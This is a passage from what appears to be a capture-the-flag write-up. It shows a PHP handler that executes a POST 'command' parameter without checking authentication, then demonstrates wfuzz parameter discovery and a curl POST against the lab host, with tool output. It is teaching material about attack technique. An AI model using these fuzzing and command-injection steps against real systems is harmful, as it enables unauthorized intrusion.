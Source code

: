 ```
if(isset($_POST['command'])) {
    // string filters and execution

```

The site uses the database to set the `$user` variable, and then if it’s set, gives the page, and if not, gives a link to login. Then it closes the body and html tags, and then it does the execution bit if the POST argument `command` is set. But it does the command execution part without checking for a valid user.

It is possible that someone could find this site and, without logging in, fuzz the parameter, and get this execution with out creds. The only leap the attacker would have to make would be that there might be some post parameters that change the output. Then they could fuzz to look for it. And it turns out that’s a very fast check with `wfuzz`:

```

root@kali# time wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -d "FUZZ=junk" --hh 403 'http://[dead:beef::250:56ff:feb2:7cff]:80/'
********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************

Target: http://[dead:beef::250:56ff:feb2:7cff]:80/
Total requests: 2588

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000207:  C=200     20 L       35 W          436 Ch        "command"

Total time: 5.800663
Processed Requests: 2588
Filtered Requests: 2587
Requests/sec.: 446.1558

real    0m6.084s
user    0m3.968s
sys     0m2.081s

```

Having found the parameter name, I can check out what actually returns:

```

root@kali# curl -6 -d "command=junk" -X POST 'http://[dead:beef::250:56ff:feb2:7cff]:80/'

<!DOCTYPE html>
<html>
<title>Command Execution Panel (Beta)</title>
<head>
        <link rel="stylesheet" type="text/css" href="assets/css/style.css">
        <link href="http://fonts.googleapis.com/css?family=Comfortaa" rel="stylesheet" type="text/css">
</head>
<body>

        <div class="header">
                <a href="/">Command Execution Panel</a>
        </div>

                <h1>Please Login
                <a href="login.php">Login</a>

```